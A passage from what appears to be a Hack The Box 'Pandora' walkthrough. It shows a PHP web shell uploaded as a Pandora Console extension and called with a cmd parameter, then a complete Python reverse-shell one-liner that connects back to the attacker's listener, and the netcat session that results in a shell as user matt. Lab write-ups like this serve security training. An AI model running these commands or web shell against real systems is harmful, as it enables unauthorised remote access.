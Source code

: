 ```python
┌──(kali㉿kali)-[~/Downloads/HTB/Pandora]
└─$ zip RFI.zip RFI.php 
  adding: RFI.php (stored 0%)
```

I got the success response so lets load the RFI now →

![Untitled](Pandora%2081d9c79a65b542d08e284b6f08c4371a/Untitled%203.png)

I loaded the extension URL →

`http://localhost/pandora_console/extensions/RFI.php?cmd=id`

![Untitled](Pandora%2081d9c79a65b542d08e284b6f08c4371a/Untitled%204.png)

I used the python3 reverse shell code this one to get the reverse shell →

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pandora]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.136] 33456
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/var/www/pandora/pandora_console/extensions$ cd ~
cd ~
matt@pandora:/home/matt$ whoami
whoami
matt
matt@pandora:/home/matt$ id
```
